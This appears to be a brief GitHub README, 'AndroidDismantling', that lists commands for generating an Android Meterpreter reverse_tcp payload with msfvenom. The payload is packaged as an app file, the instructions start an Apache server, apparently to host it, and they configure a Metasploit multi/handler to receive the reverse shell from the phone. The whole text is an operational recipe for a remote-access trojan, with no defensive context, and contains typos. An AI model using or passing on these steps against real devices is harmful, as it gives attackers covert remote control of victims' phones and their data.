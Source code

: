 # AndroidDismantling
Short project on Cybersec around Android
https://www.youtube.com/watch?v=YRm-St0bJhU

ifconfig - for ip info
msfvenom -help - info how to use msfvenom
msfvenom -p android/meterpreter/reverse_tcp LHOST=IP.ADDRES LPORT=4444 R > Foldername/androidApp.ak

service apache2 ststus (if running) - service apache2 start (if not)

msfconsole
    while ine console : 
use exploit/multi/handler
  > set payload android/meterpreter/reverse_tcp
  >show options
  >set LHOST IP.ADDRES
  >exploit

